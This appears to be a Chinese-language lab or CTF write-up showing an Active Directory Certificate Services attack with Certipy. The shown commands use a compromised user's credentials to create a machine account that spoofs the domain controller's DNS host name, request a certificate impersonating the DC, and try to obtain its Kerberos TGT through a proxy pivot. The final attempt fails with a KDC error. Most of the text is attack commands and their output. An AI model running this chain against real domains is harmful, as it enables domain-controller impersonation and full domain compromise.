 Certipy-ad:[ly4k/Certipy: Tool for Active Directory Certificate Services enumeration and abuse](https://github.com/ly4k/Certipy/)

使用certipy-ad工具创建一个账户，并设置dNSHostName

```
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 certipy account create -u lixiuying@xiaorang.lab -p winniethepooh -dc-ip 172.22.15.13 -user xrntkk3 -pa
ss Abc123456 -dns 'XR-DC01.xiaorang.lab'
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:636  ...  OK
[*] Creating new account:
    sAMAccountName                      : xrntkk3$
    unicodePwd                          : Abc123456
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/xrntkk3
                                          RestrictedKrbHost/xrntkk3
    dnsHostName                         : XR-DC01.xiaorang.lab
[*] Successfully created account 'xrntkk3$' with password 'Abc123456'
```

用创建的账户向XR-CA请求证书

```
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 certipy req -u xrntkk3\$@xiaorang.lab -p Abc123456 -target 172.22.15.18 -ca "xiaorang-XR-CA-CA" -templa
te Machine
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.18:445  ...  OK
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with DNS Host Name 'XR-DC01.xiaorang.lab'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'xr-dc01.pfx'
```

向 KDC 请求域控的 TGT

```
┌──(root㉿Xrntkk-Laptop)-[/home/xrntkk]
└─# proxychains4 certipy auth -pfx xr-dc01.pfx -dc-ip 172.22.15.13 -debug
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: xr-dc01$@xiaorang.lab
[*] Trying to get TGT...
[proxychains] Strict chain  ...  113.45.175.138:6666  ...  172.22.15.13:88  ...  OK
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```
